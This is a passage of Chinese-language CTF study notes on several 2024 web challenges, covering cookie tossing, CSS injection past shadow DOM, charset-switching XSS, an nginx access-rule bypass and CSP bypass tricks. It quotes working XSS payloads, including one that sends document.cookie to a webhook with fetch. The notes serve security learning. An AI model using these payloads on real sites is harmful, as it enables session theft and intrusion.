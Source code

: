     ```
    就算p没有被加入dom，也会触发xss。问就是魔法
    - [cookie tossing](https://security.stackexchange.com/questions/67608/cookie-tossing-explained)。假如在`a.b.com`设置了cookie `c=d`，在`b.com`上也用同名的cookie的话会受影响。这题需要自己构造一个subdomain `c.a.b.com`，在里面用js代码修改cookie，影响`a.b.com`里同名cookie的取值。xss出现在这个同名cookie处，所以成功在`a.b.com`得到xss
    - 又一个firefox和chrome的区别：chrome无法在`blob://` url下设置和读取cookie，但firefox可以
    - 一些[Public Suffix List](https://wiki.mozilla.org/Public_Suffix_List)的知识。上面提到的cookie tossing没法影响Public Suffix List里的domain（但是subdomain可以）。见 https://adragos.ro/google-ctf-2024/
- [IN-THE-SHADOWS](https://blog.huli.tw/2024/06/28/google-ctf-2024-writeup),[官方wp](https://github.com/google/google-ctf/tree/main/2024/quals/web-in-the-shadows)
    - css injection。目标是绕过过滤的情况下一次注入泄漏出[shadow dom](https://developer.mozilla.org/en-US/docs/Web/API/Web_components/Using_shadow_DOM)之外的元素。“逃逸”shadow dom可以用`:host-context`或者`:host`。绕过过滤则是由于chromium的一个bug（现在修了），主要是在re-serialization某个style sheet（或者说取出某个css rule的cssText？）时，单引号被去掉了，导致css的含义改变，可以偷渡`@import`进去
    - 单注入点css injection泄漏内容。第一篇wp用了trigram的做法，个人感觉官方wp的做法更好,见 https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point
- [forms](https://github.com/ImaginaryCTF/ImaginaryCTF-2024-Challenges-Public/blob/main/Web/forms)
	- Content-Type header没有设置charset导致的xss。见这篇文章： https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/ 。浏览器一般按照这样的顺序决定当前文档使用的字符集：
	1. HTML文档开头的Byte-Order Mark（这玩意的xss见上面的secure-notes）
	2. Content-Type header里的charset属性
	3. HTML文档里的`<meta>`标签
	4. 都没有的话就由浏览器自动检测。有个字符集ISO-2022-JP非常特殊，首先它有四种escape sequences切换当前使用的字符集（文章里可以看到是什么，只要浏览器看见它们就会切换到对应的字符集）。其中一种`JIS X 0201 1976`和ascii基本相同，而重要的不同点在于`\`，在`JIS X 0201 1976`下会被看成日元的符号，反之亦然
	- 这道题作者的payload是`{'title': 'Totally not a sus title\x1b(J', 'questions': '[["Are you an impostor?\\"}];fetch(`webhook?${document.cookie}`).then(console.log);const foo=[//", true]]'}`，然后让admin打开`/form/fill/id`，内容为：
```html
        <title>Totally not a sus title(J</title>
        ...省略不重要的内容...下面这块是源码里base.html的内容
        <script>
        const messages = [
                    {category: 'error', message: "The following question is required: Are you an impostor?\"}];fetch(`webhook?${document.cookie}`).then(console.log);const foo=[//" },
        ];
```
最开始的title切换了当前的charset，因此其他的都正常渲染，除了那个`\`。这个符号本来是拿来转义后面的`"`的，没了后我们剩下的内容就逃逸出去了，成功执行xss payload。不过我这里用chrome打开没见到payload执行，可能因为bot用的是firefox

- [hello](https://yun.ng/c/ctf/2024-idek-ctf/web/hello)
	- 爆炸了，这题其实是个很简单的xss题，对xss payload唯一的限制是不能在payload里使用空格，`/`,`\r`,`\n`和`\t`（由此得出这些东西都可以用来代替标签里用来分割属性的空格）。然而这点用`\x0c`就能轻松绕过了（比赛期间我是在[这里](https://security.stackexchange.com/questions/47684/what-is-a-good-xss-vector-without-forward-slashes-and-spaces)找到的）。httponly的cookie可以用phpinfo页面绕过这点我也知道。那么卡在哪里了呢？卡在这个nginx.conf项：
	```
	location = /info.php {
	    allow 127.0.0.1;
	    deny all;
	}
	```
	但是bot和题目并不在一个机器上。结果发现这是个nginx mis-configuration，可以用`/info.php/.php`绕过……
    - 另一种绕过方式和更详细的wp： https://hxuu.github.io/blog/ctf/idek24/hello/ 。[hacktricks](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass#php-fpm)有记录
- [Tagless](https://siunam321.github.io/ctf/SekaiCTF-2024/Web/Tagless)
    - 对自己无语了，明明都找到关键点了还能死在最后一步……真的我这个脑子别打CTF了，干脆专职写这个repo得了（不打CTF的CTFer...）。总之这题的关键点是，题目提供了一个复述输入内容的页面，没有限制内容的格式，所以可以注入html。不能输入`<...>`，但是可以用url二次编码绕过。这点我看到了。但是csp设定了`script-src 'self'`，导致不能用inline script，只能从当前host导入js。不过网页还提供了一个功能：若当前url为404，就在网页上打出这个url。啊看到这个加上之前看过的[Noscript](https://octo-kumo.github.io/c/ctf/2024-wanictf/web/noscript)题，我就感觉可以利用一下。结果被那题带偏了，一直在想怎么用`<object>`标签导入，而且`<>`的过滤总是处理不好。用了url二次编码看起来行了，但是payload还是解析失败。看了wp才发现是js代码语法的问题，要这么搞：`<script src="/**/alert(document.domain)//"></script>`，加几个注释规避掉报错
- [htmlsandbox](https://blog.bawolff.net/2024/09/sekaictf-2024-htmlsandbox.html)
    - 如何绕过`document.querySelector('script, noscript, frame, iframe, object, embed') === null`检查：可以用`<template>`标签包住要隐藏的tag：`<template shadowrootmode="closed"><script>....</script></template>`
    - csp meta标签的限制：